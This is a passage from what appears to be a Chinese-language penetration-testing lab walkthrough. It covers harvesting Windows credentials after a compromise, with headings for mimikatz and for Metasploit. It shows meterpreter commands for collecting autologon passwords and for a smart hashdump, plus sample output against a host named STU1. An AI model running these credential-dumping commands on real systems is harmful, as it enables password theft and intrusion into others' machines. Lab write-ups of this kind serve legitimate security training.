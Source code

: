 [![](assets/1701827767-57578615ca6e42bd3e8ef767c98aa33d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191507-0cb4f366-9104-1.png)

### 获取密码：

#### 通过 mimikatz 获取用户名密码

#### 通过 msf 获取密码：

获取自动登录密码：

```plain
meterpreter > run windows/gather/credentials/windows_autologin
[] Running against STU1 on session 2 
[] The Host STU1 is not configured to have AutoLogon password
#在会话 2 上针对 STU1 运行 #主机 STU1 未配置为具有自动登录密码
```

[![](assets/1701827767-d4d14da12062335e5f2665b27041cd7f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191522-15aff22c-9104-1.png)

查询 hashdump：

```plain
run post/windows/gather/smart_hashdump
```
